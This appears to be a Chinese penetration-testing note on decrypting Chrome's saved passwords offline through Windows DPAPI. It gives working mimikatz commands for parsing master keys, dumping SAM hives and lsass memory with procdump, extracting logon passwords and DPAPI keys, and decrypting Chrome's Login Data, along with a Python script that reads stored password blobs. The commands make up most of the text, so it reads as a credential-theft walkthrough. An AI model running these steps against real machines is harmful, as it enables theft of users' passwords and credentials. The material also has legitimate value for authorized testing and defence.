

# 渗透测试-离线导出Chrome浏览器密码


**参考:**

[How to hack a Windows password](https://miloserdov.org/?p=4129)

[How to decrypt stored Windows passwords using mimikatz and DAPA](https://miloserdov.org/?p=4205)

[渗透技巧-离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[渗透技巧-利用Masterkey离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8Masterkey%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)


## DPAPI简介

DPAPI全称`Data Protection Application Programming Interface`，是Windows提供的用于数据保护的一套接口，常见应用如下:

- Credential Manager
- Windows Vault
- IE browser passwords
- Passwords for connecting to Wi-Fi networks
- Certifications
- VPN passwords
- SSH keys
- Google Chrome browser passwords
- Google Talk, Skype, Dropbox, iCloud, Safari credentials

加密解密过程全透明，只要调用CryptProtectData和CryptUnprotectData即可。由于解密需要masterkey，所以一般情况下只能在本机解密，不能离线。


**DPAPI blob：**

待解密的密文，guidMasterKey字段描述了需要哪个MasterKey File。




**MasterKEY**

64字节，用于解密DPAPI blob

通过用户登录密码、SID和16字节随机数加密后保存在Master Key file中


**MasterKey File**

位于%APPDATA%\Microsoft\Protect\%SID%，属于系统隐藏文件，需要如下设置才能看到；为了安全起见，系统每隔90天会自动生成一个新的Master Key(旧的不会删除)


使用命令1可以解析MasterKey File，但是还需要用户登录密码和SID才能解密出MasterKey

```
dpapi::masterkey /in:ff610110-ff14-4275-8ef6-e6aa79ca25f4
```

```
dpapi::masterkey /in:ff610110-ff14-4275-8ef6-e6aa79ca25f4 /password:"password" /sid:"S-1-5-21-1122623846-1054905608-851323858-1002"
```


## 离线解密DPAPI files

原本想用360浏览器中保存的一个密码测试，但使用以下脚本保存密码后，使用mimikatz解析会crash

```
from os import getenv
import sqlite3
import binascii
conn = sqlite3.connect(r"D:\Users\DELL\AppData\Local\360Chrome\Chrome\User Data\Default\Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    f = open('encrypt.txt', 'wb')
    f.write(result[2])
    f.close()
```

因此直接mimikatz生成DPAPI文件做实验

```
dpapi::protect /data:"Test string to encrypt" /out:crypted.txt
```


### 方法1:  通过NTLM Hash破解出密码，解密出master key后进行解密

**拿到NTLM Hash**

```
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
lsadump::sam /system:"PATH\TO\SystemBkup.hiv" /sam:"PATH\TO\SamBkup.hiv"
```

或

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump "PATH\TO\lsass.dmp"
sekurlsa::logonPasswords
```

**定位需要哪个masterkey文件**

```
dpapi::blob /in:crypted.txt
```

**解密masterkey文件，拿到masterkey**

```
dpapi::masterkey /in:ff610110-ff14-4275-8ef6-e6aa79ca25f4 /password:"password" /sid:"S-1-5-21-1122623846-1054905608-851323858-1002"
```

**解密DPAPI文件**

如果拿到了masterkey，mimikatz会把它缓存下来，后面不指定/masterkey:也可以

```
dpapi::blob /in:crypted.txt /unprotect /masterkey:MASTERKEY
```

同样支持解密Chrome的Login Data文件

```
dpapi::chrome /in:"PATH\TO\Login Data" /unprotect /masterkey:MASTERKEY
```


### 方法2:  从Lsass dump中直接获取masterkey，再进行解密

**从lsass dump中获取masterkey**

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump "PATH\TO\lsass.dmp"
sekurlsa::dpapi
```

再用方法1中的方法解密DPAPI文件


## 保存和使用DPAPI Cache

```
dpapi::cache /save /file:cache.bin
dpapi::cache /load /file:cache.bin
```

